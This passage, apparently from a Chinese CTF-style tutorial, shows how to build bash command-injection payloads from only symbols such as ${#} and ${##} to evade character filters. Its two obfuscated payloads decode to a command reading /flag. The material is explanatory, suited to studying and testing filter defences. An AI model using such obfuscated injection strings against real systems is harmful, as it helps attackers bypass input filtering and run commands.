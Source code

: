 如果#后面啥也没有它就是0，有一个字符串比如#就变成了1，似乎现在我们只要把1用${##}替换，0用${#}替换即可：

```
$${#}<<<$${#}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${##}${#}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${##}))\'
```

![img](assets/11.png)

可惜这种执行方法是不行的，因为虽然$0表示bash，${#}表示0，但把它们拼起来并不表示bash，这里$$直接执行了，意思是脚本运行的当前进程ID号。下一步你可能会想到linux里的字符串拼接，但这种拼接也只会解析第一层，不会解析到最后：

![img](assets/12.png)

这时我们可以想到linux下感叹号!的一种用法，它可以进行变量替换：

![img](assets/13.png)

因此理论上我们只要找到一个值为零的变量，然后就可以用这种方法进行变量替换得到$0，并且还能成功解析，这时我们很容易想到刚刚使用的${#}，毕竟它的值就是零嘛：

![img](assets/14.png)

可以看到确实能得到bash，我们再次替换回去，可以得到新payload：

```
${!#}<<<${!#}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${##}${#}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${##}))\'
```
